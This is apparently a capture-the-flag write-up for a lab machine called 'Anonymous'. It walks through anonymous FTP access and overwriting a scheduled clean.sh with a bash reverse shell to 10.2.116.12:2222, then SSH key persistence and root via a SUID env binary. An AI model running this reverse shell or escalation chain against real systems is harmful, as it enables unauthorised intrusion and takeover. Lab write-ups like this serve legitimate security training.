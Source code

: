 # Anonymous v6
**IP:** _10.10.221.147_
I did a nmap scan and found:
> 21 (ftp), anonymous is allowed<br>
> 22 (ssh)<br>
> 139, 445 (smb)<br>

I connected via ftp to the server. Here is what I found there in the scripts folder:<br>
![ftp_server](./imgs/ftp_server.png)


I got these files.

*clean.sh*<br>
![clean.sh](./imgs/clean.sh.png)<br>

*removed_files.log*<br>
![removed_files.log](./imgs/removed_files.log.png)<br>

*removed_files.log* file is a part of *clean.sh* script. And if you look at the time when the *remove_files.log* was last changed you will notice that it was just changed, so we can suppose that *clean.sh* is scheduled to run (maybe every minute).<br>
We have permission to put files on the FTP server.

I took the *clean.sh* file, changed it a little bit. Just added this line:<br>
`sh -i >& /dev/tcp/10.2.116.12/2222 0>&1`<br>
Connected to the ftp server, removed the original *clean.sh*, and put my own. (Do not forget to set up nc listener.) The idea was that I would wait until the file would be executed and I would get a reverse-shell, but it did not work because the file does not have the permissions to be executed.<br>
Let's see what we got on the *smb server*
```
smbmap -H anonv6.thm

[+] Guest session       IP: anonv6.thm:445      Name: unknown                                           
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        pics                                                    READ ONLY       My SMB Share Directory for Pics
        IPC$                                                    NO ACCESS       IPC Service (anonymous server (Samba, Ubuntu))
```
Let's check them out.<br>
pics:<br>
![smb_pics](./imgs/smb_pics.png)<br>
Nothing interesting. Doing some research I found what was my mistake. I connected to the FTP server removed *clean.sh* and then put there mine *clean.sh*, and these two actions changed the permissions of the file and did not allow the system to run it. The right way to get the reverse-shell was just to create a new *clean.sh* DO NOT remove the current from the server and just put it there.
```
ftp anonv6.thm
anonymous:anonymous
put clean.sh
```
And now if you had a `netcat` listener listening, in my case on port 2222, after a couple of seconds I got we reverse-shell.

## Privilege Escalation
First, I upgraded my reverse shell with:<br>
`python3 -c "import pty; pty.spawn('/bin/bash')"`<br>
Then I created a new SSH key-pair and connected via ssh so that have a pretty shell :smile:<br>
```
ssh-keygen # no password
cat ./.ssh/id_rsa.pub > authorized_keys
```
Then I copied `./.ssh/id_rsa` file to my machine in a file called `id_rsa` and set the right permissions and connected to it.<br>
```
chmod 600 id_rsa
ssh -i id_rsa namelessone@anonv6.thm
```
I went to my cheat sheet for privilege escalation [CheatSheet](https://github.com/0xt1m/ctf/blob/main/CheatSheet/privilge_escalation.md) and found there this command:<br>
```
find / -perm -u=s -type f 2>/dev/null
```
I gave out many responses but the interesting one for me was:<br>
`/usr/bin/env`<br>
I went to https://gtfobins.github.io/gtfobins, and looked for `env` it found the SUID option for me, so I just executed the next command and got root.<br>
```
env /bin/sh -p
```

